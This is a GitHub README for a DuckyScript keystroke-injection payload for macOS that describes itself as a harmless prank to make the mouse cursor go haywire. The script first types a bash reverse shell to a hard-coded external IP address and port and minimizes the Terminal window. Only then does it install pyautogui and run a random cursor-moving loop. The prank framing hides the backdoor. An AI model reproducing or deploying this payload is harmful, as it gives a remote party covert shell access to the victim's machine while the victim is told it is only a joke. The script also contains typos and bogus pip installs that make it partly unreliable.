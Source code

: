 # Mouse-Chaos-Payload-MacOS
DuckyScript that causes the mouse cursor of a computer to go hay-wire on MacOS. Because it's mostly harmless and funny.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## About
Version 1.0
<br>Author: samamsa7

## DuckyScript Code
<code><pre>
DELAY 75
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.7/87 0>&1
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
DELAY 50
STRING pip3 install pyautogui
DELAY 500
DELAY 50
STRING pip3 install time
DELAY 550
STRING pip3 install random
DEALY 550
STRING nano payload.py
DELAY 50
STRING import pyautogui
DELAY 10
ENTER
DELAY 10
STRING import random
DELAY 10
ENTER
DELAY 10
STRING import time
DELAY 10
ENTER
DELAY 10
STRING while True:
DELAY 10
ENTER
DELAY 10
STRING    x = random.randint(0, pyautogui.size().width)
DELAY 10
ENTER
DELAY 10
STRING    y = random.randint(0, pyautogui.size().height)
DELAY 10
ENTER
DELAY 10
STRING   pyautogui.moveTo(x, y)
DELAY 10
ENTER
DELAY 10
STRING    time.sleep(0.01)
DELAY 10
CTRL X
DELAY 10
STRING y
DELAY 10
ENTER
DELAY 10
STRING python3 payload.py
DELAY 10
ENTER
DELAY 10
COMMAND M
</code></pre>
